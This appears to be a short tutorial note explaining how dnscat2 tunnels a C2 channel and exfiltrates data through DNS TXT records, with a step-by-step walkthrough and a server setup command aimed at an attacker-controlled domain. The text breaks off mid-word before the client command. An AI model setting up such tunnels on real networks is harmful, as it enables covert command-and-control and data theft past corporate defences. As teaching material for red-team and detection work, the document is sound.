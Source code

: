 

- Dnscat2 is a tunnelling tool that uses DNS protocol to send data between two hosts. 
- It uses an encrypted C2 channel and sends data inside TXT records within the DNS protocol. 
- Most Domain environments will have their own DNS server that resolves Domain to IP and route the traffic to external DNS servers.
- However, with dnscat2, the address resolution is requested from an external Server. When Local DNS tries to resolve an address, data is exfiltrated and sent over the network instead of a legitimate DNS request. 




#### BreakDown of how Dnscat2 works with an example

1. Suppose you're inside a corporate network. Most corporate networks have their own DNS server. If local DNS resolution fails, the request will be forwarded to external DNS servers. 
2. Dnscat2 abuses this functionality to extract data via the TXT reccord.
3. The attacker sets up a domain (malicious.xyz) , then sets up a dnscat2 server and configures the NS record of the domain to point to it (dnscat2 server). The attacker’s DNS server can now receive **raw DNS queries** for  ` *.malicious.xyz.`
4. The attacker runs dnscat2-client, which crafts fake DNS requests that **look like queries**, but actually carry **data or command results**.
5. Since, the local DNS server doesn't know how to resolve the requested hostname, it forwards the request to the external DNS server, which is owned by the attacker.
6. The attacker receives the DNS request, and extracts the data out of the TXT field. 




#### Syntax

1. Setting up the Server

```python
sudo ruby dnscat2.rb --dns host=<AttackerIP>,port=53,domain="attacker.local" --no-cache
```



2. Connecting to the server from the target machi